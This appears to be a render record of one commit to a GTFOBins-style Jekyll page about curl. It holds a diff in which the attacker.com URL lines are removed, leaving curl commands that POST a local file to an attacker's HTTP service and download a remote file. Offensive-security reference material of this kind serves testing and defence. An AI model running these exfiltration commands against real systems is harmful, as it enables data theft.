

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/curl.md, in a window 1280 px wide, cut to the strip 339-860 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update curl.md

```diff
--- a/_gtfoud/curl.md
+++ b/_gtfoud/curl.md
@@ -3,13 +3,9 @@ functions:
   file-upload:
     - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Omit the `@` to send hard-coded data.
       code: |
-        URL=http://attacker.com/
-        LFILE=file_to_send
         curl -X POST -d "@$LFILE" $URL
   file-download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
-        URL=http://attacker.com/file_to_get
-        LFILE=file_to_save
         curl $URL -o $LFILE
 ---
```
